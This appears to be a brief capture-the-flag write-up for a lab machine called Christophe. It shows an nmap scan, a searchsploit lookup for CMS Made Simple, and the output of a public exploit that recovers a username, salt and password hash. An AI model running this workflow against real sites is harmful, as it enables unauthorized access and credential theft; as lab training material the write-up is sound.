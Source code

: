 # SP: Christophe (V1.0.2)

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## CMS Made Simple
![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)

```
searchsploit "cms made simple"
```

![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


Copy the exploit and run it with python and the variables it needs. 

```
[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```


